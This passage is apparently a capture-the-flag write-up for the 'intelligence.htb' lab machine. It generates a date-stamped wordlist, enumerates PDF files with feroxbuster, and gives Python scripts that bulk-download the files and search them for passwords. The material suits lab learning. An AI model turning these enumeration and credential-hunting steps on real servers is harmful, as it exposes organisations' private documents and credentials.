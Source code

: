 ### Web Enumeration

{{< figure src="images/1.png">}}

As we try to dowload the document we notice that file names are in date-stamps! Let's find out all the valid file names using feroxbuster.
And then we can download them. I automated this process... 

#### Create Date Stamp Wordlist

I used [BruteSploit](https://github.com/Screetsec/BruteSploit/blob/master/tools/datelist) from github! To generate a wordlist from `2019 to 2021`

`./wordlist-gen.sh -b 2019-01-01 -e 2021-12-31 -f yyyymmdd -s - -o wordlist.txt -a "-upload.pdf"`

I used the above command to generate the wordlist

#### FeroxBuster

{{< figure src="images/2.png">}}

#### Dumper And Extractor

I created a small py scripts to dump (dowload) those PDFs, and then extractor to get useful info like password?

```Python
# dumper.py

#!/usr/bin/env python3
import requests


x = ["http://intelligence.htb/documents/2020-01-02-upload.pdf"]

# Above is a representation of what it had. You will have to put the feroxbuster's urls into a list here.


for url in x:
    r = requests.get(url, allow_redirects=True)
    with open(f"""{url.split('/')[-1]}""", 'wb') as f:
        f.write(r.content)
```

```Python
# extractor.py
#!/usr/bin/env python3
import PyPDF2 as x
names = ["2020-01-01-upload.pdf"]

# Above is a representation of what it had. You will have to put the downloaded file's file names.

for i in names:
    fileobject = open(i,'rb')
    pdfreader =  x.PdfFileReader(fileobject)
    pageobj = pdfreader.getPage(0)
    if pageobj.extractText().find("password")!=-1: 
        print(pageobj.extractText())
        print(i)

```
